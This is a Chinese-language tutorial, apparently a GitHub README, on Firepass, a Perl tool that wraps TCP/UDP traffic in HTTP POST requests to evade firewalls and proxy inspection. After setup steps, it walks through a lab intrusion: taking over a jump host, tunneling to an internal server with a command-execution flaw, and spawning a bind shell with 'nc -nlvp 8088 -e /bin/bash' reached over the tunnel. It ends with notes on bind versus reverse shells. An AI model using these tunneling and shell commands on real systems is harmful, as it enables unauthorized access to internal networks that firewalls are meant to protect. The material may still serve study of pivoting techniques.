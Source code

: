 ## 简介

Firepass - 一种隧道技术工具，通过它可以避开防火墙的规则约束，将数据流封装在合法的HTTP POST请求中。任何基于TCP/UDP协议的子协议可以通过它来穿越HTTP代理服务器对HTTP协议的严格审查。到目前为止，客户端和服务器端仅用PERL语言编写。服务器端作为一个CGI脚本运行在WEB服务器上。Firepass的主要特点是用户可以在外网使用几种方法安装服务器端脚本。用户无需在外网计算机上绑定任何端口。当服务端脚本被置于企业WEB服务器上，客户端脚本从外部网络和它通信时，Firepass也可适用于反弹作业。

## 版本


	apache-1.3.11 (仅在低版本测试通过)
	http://archive.apache.org/dist/httpd/apache_1.3.11.tar.gz
	
	perl
	This is perl 5, version 16, subversion 3 (v5.16.3) built for x86_64-linux-thread-multi
	（yum install perl*）




## 操作

1.配置文件找到cgi-bin目录，确保开启cgi-bin (默认开启) (find / -name httpd.conf)

![](images/1.png)

2.上传fpserver.cgi到cgi-bin

![](images/2.png)

3.创建两个文件夹inout和log到/var/tmp，并给予权限


	cd /var/tmp
	mkdir inout
	mkdir log
	chmod 777 inout log


![](images/3.png)

4.用配置文件运行fpserver.cgi，确保fpcnf.cache已生成


	chmod +x fpserver.cgi
	./fpserver.cgi configure conf/fpserver.conf
	ls


![](images/4.png)

5.修改客户端的fpclient.rules，设置隧道绑定端口

![](images/5.png)

fpclient/conf/fpclient.conf 可以开启debug

	debug		yes

6.开启客户端

	perl fpclient.pl conf/fpclient.conf 10.10.40.63/cgi-bin/fpserver.cgi

7.访问本地8088端口，成功和10.10.40.62:8080建立隧道

![](images/7.png)

![](images/8.png)

## 网络拓扑

内网 10.10.40.62  仅对内网开放web 服务 开放 8080端口 ，不出网 (无法反弹shell)

内网 10.10.40.63  apache 服务 可以作为跳板机 在上面搭建http 代理隧道

内网攻击机 10.88.104.26

![](images/9.jpg)

### 方式

先拿下 40.63 建立http 隧道，10.88.104.26 在本地映射端口，间接访问10.10.40.62的web。

渗透到内网后，发现web有个命令执行漏洞，因为攻击机在内网，所以使用nc正向拿shell。


fpclient.rules

	8088	tcp	10.10.40.62	8080	tcp
	8081	tcp	10.10.40.62	8088	tcp  # 用于nc
	8082	udp	10.10.40.62	8080	tcp  # doesn't work

40.62 web(存在任意命令执行漏洞) 执行 

	nc -nlvp 8088 -e /bin/bash

本地执行：

	nc64.exe -nvv 127.0.0.1 8081

拿到shell：

![](images/10.png)

## reference

[firepass-1.1.2a.tar](https://www.ymcn.org/d-1Rh5.html)

## 后记

正向shell和反向shell区别：

上面是举例正向tcp shell，例如正向ssh shell，攻击者主动连接受害端，受害端的输入输出转到控制端。

反弹shell是被动控制，正向shell是主动控制，反弹shell更稳定。

一般地，在内网，能出网机器，反弹shell，不能出网，跳板机正向shell。






